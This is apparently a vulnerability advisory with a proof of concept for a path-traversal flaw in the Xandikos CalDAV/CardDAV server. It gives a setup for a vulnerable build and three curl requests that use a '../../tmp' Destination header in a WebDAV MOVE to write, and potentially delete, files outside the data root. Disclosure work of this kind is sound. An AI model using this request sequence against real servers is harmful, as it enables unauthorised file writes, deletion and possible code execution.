



# CVE-2026-50917 — Path Traversal in Xandikos WebDAV MOVE Destination (arbitrary file move/write outside backend root)

[CVE ID]
CVE-2026-50917

[PRODUCT]
jelmer/xandikos — a lightweight open-source CalDAV/CardDAV (WebDAV) server written in Python on aiohttp. (Note: the CNA record spells the vendor "elmer"; the actual GitHub owner is "jelmer" — same project.)

[VERSION]
commit `7ab17e019fbba273ef02fd54aee1c76f54fd12a9` (merge commit, 2026-03-01; the code was verified vulnerable in an image built from exactly this commit — see PoC note below)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`), yielding an arbitrary-path file move/write primitive (`CWE-22` → out-of-bounds write)

## Description

The WebDAV `MOVE` method on any collection is the entry point (`MOVE /<collection>/`). `MoveMethod.handle()` in `xandikos/webdav.py` reads the attacker-controlled `Destination` header, reduces it to `dest_path` with `urllib.parse.urlparse(destination_header).path`, performs only a same-host check, and passes `dest_path` — without removing `..` segments — into `app.backend.move_collection()` (L2049–L2116). `FilesystemBackend.move_collection()` in `xandikos/fs.py` maps both source and destination with `_map_to_file_path()` (L53–L55), which is just `os.path.join(self.path, relpath.lstrip("/"))` — no normalization and no containment check. A destination such as `/../../tmp/x` therefore maps to `<data_root>/../../tmp/x`, which the OS resolves to `/tmp/x`, outside the served root. If the resolved destination already exists and `Overwrite: T` (the default), an existing directory/file is first deleted with `shutil.rmtree()`/`os.remove()` (L129–L135), then the collection is relocated with `shutil.move()` (L136). Because the moved content can be planted beforehand via `PUT`, this is a two-step "upload then move" primitive that writes attacker-controlled content to arbitrary filesystem paths writable by the server process.

Vulnerable code (pinned commit):
- https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L53-L55 (`_map_to_file_path`, no containment)
- https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/fs.py#L120-L140 (`move_collection`: pre-delete + `shutil.move` sink)
- https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2049-L2085 (Destination parsed to `dest_path`, no `..` stripping)
- https://github.com/jelmer/xandikos/blob/7ab17e019fbba273ef02fd54aee1c76f54fd12a9/xandikos/webdav.py#L2114-L2117 (sink call into `move_collection`)

## Proof of Concept

### Victim setup

Note: `ghcr.io/jelmer/xandikos:latest` (digest `sha256:9500e895...`, built 2026-09-20) already contains the upstream fix (commit `d0e40ba` "fs: collapse `..` in _map_to_file_path", 2026-08-25), so the PoC is run against an image built from the pinned vulnerable commit (kc1, Docker 28.3.0):

```bash
git clone https://github.com/jelmer/xandikos.git xandikos-src && cd xandikos-src
git checkout 7ab17e019fbba273ef02fd54aee1c76f54fd12a9
docker build -f Containerfile -t scdd50917/xandikos:7ab17e019fbba273ef02fd54aee1c76f54fd12a9 .

mkdir -p ./xandikos_data && chmod 0777 ./xandikos_data
docker run --rm -d --name scdd_50917_xandikos \
  -p 34017:8000 \
  -v "$PWD/xandikos_data:/data" \
  -e AUTOCREATE=true -e DEFAULTS=true \
  scdd50917/xandikos:7ab17e019fbba273ef02fd54aee1c76f54fd12a9
# wait for readiness (curl http://127.0.0.1:34017/ -> 200)
```



### Attack steps

Three unauthenticated HTTP requests from the same host (the default container deployment runs without authentication):

```bash
BASE="http://127.0.0.1:34017"
SRC="scdd_src_1790569337"; DST="scdd_50917_pwned_1790569337"

# 1) create a source collection
curl -sS -X MKCOL "$BASE/$SRC/" -H 'Content-Length: 0' -D - -o /dev/null
# -> HTTP/1.1 201 Created

# 2) upload the marker content
curl -sS -X PUT "$BASE/$SRC/scdd_marker.txt" \
  -H 'Content-Type: text/plain; charset=utf-8' \
  --data-binary "CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1790569337"$'\n' \
  -D - -o /dev/null
# -> HTTP/1.1 201 Created

# 3) MOVE the collection out of the DAV root via traversal in Destination
curl -sS -X MOVE "$BASE/$SRC/" \
  -H "Destination: $BASE/../../tmp/$DST" \
  -H 'Overwrite: T' \
  -H 'Depth: infinity' \
  -D - -o /dev/null
# -> HTTP/1.1 201 Created
```



### Evidence

Inside the container the collection (with its `.git` store and the marker file) now exists under `/tmp`, completely outside the backend root `/data`, and the source has disappeared from `/data` — proving the out-of-root `shutil.move` (real output from the recorded session):

```
$ docker exec scdd_50917_xandikos bash -lc 'ls -la /tmp/; ls -la /tmp/scdd_50917_pwned_1790569337/; cat /tmp/scdd_50917_pwned_1790569337/scdd_marker.txt; ls -la /data/'
--- /tmp ---
drwxrwxrwt 1 root     root     4096 Sep 28 04:22 .
drwxr-xr-x 3 xandikos xandikos 4096 Sep 28 04:22 scdd_50917_pwned_1790569337
--- /tmp/scdd_50917_pwned_1790569337 ---
drwxr-xr-x 8 xandikos xandikos 4096 Sep 28 04:22 .git
-rw-r--r-- 1 xandikos xandikos  46 Sep 28 04:22 scdd_marker.txt
--- cat /tmp/scdd_50917_pwned_1790569337/scdd_marker.txt ---
CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1790569337
--- DAV root /data after MOVE ---
source collection no longer under /data (moved out of backend root)
RESULT=VERIFIED marker CVE50917_MARKER_SCDD_XANDIKOS_MOVE_1790569337 found at /tmp/scdd_50917_pwned_1790569337/scdd_marker.txt (outside /data backend root)
```

For comparison, the same three requests against the current official `ghcr.io/jelmer/xandikos:latest` (built after the fix) return `201` for MOVE but land the collection at `/data/tmp/...` — i.e. the traversal is collapsed inside the backend root and nothing reaches `/tmp` (recorded as PART 1 of the transcript).



## Impact

A remote attacker who can reach the WebDAV endpoint gains an arbitrary-path, attacker-controlled-content file write via the two-step PUT-then-MOVE primitive (any path writable by the server process — demonstrated with `/tmp` in the official image, which runs as uid 1000 `xandikos`), and because `Overwrite: T` pre-deletes an existing destination with `shutil.rmtree()`/`os.remove()`, the same request also carries an arbitrary delete primitive. Constraints: the `Destination` header must target the same host (netloc equal to `Host`), MOVE of a collection requires `Depth: infinity`, and final write/delete success depends on filesystem permissions of the server process. The default upstream container runs without authentication, so no credentials are needed there; deployments behind auth require any account allowed to issue MOVE. The CVE record characterizes this as "execute arbitrary code": the proven primitive is the out-of-root write/delete (e.g. planting files in startup/script/cron locations on writable deployments); full code execution depends on such a writable execution path being present.

## Occurrences

- `xandikos/fs.py:L53-L55` — `_map_to_file_path()` joins root with unnormalized relpath (no `..` containment)
- `xandikos/fs.py:L127-L136` — `move_collection()`: `shutil.rmtree`/`os.remove` pre-delete of existing destination + `shutil.move` sink (also reached by `copy_collection` L57-L95 with `shutil.copytree`)
- `xandikos/webdav.py:L2049-L2085` — `MoveMethod.handle()` parses `Destination` header into `dest_path` without stripping `..`
- `xandikos/webdav.py:L2114-L2117` — `dest_path` passed into `app.backend.move_collection()` (same pattern in `CopyMethod` at L2229-L2253)

## References

- [CVE-2026-50917](https://www.cve.org/CVERecord?id=CVE-2026-50917)
- Upstream repo: https://github.com/jelmer/xandikos (vulnerable commit `7ab17e019fbba273ef02fd54aee1c76f54fd12a9`)
- Upstream fix commit (post-CVE): https://github.com/jelmer/xandikos/commit/d0e40ba40c5637611414d970b9127a96f72cff89 ("fs: collapse `..` in _map_to_file_path", 2026-08-25) — included in `ghcr.io/jelmer/xandikos:latest` since 2026-09-20
